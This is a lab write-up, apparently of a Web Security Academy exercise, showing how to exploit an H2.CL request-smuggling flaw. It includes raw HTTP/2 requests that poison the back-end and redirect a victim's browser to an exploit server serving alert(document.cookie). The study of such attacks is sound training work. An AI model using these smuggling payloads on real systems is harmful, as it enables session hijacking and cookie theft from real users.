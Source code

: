 # H2.CL request smuggling
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

# Solution
## Analysis
### Request to /resources
Attacker `Host` header is reflected in redirect response message while requesting `/resources`.
|![](Images/image-54.png)|
|:--:| 
| *Request to /resources* |
|![](Images/image-58.png)|
| *Redirection* |


### Poisoning back-end
First request poisoned the back-end. Second (the same request) was added to the end of the previous request thanks to `Content-Length: 0`. This confirms `H2.CL` vulnerability.

```
POST / HTTP/2
Host: 0a5a006a04a7655785a88b6d008f00b3.web-security-academy.net
Cookie: session=wcYxUySHQexCQUKTGwOBot4mNIMqC3FM
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

POISON
```
|![](Images/image-55.png)|
|:--:| 
| *Back-end was poisoned* |

## Exploitation
Using the above redirection attacker can redirect victim to his exploit server, where he stores malicious payload (in this case javascript `alert(document.cookie)`).
Payload:
```
POST / HTTP/2
Host: 0a20007e0416675882d470e9003200a4.web-security-academy.net
Cookie: session=zLJ76xnX5TmXKHu8aQ0X7WEKuyHAOSLl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a590054048f67fd82646fb001f1002b.exploit-server.net
Content-Length: 5

x=1
```

Exploit server payload:
```
alert(document.cookie);
```

|![](Images/image-56.png)|
|:--:| 
| *Request was smuggled successfuly* |
|![](Images/image-57.png)|
| *Request was smuggled successfuly (follow redirections was turned on)* |
|![](Images/image-59.png)|
| *Exploit server setup* |
|![](Images/image-60.png)|
| *Exploit server logs* |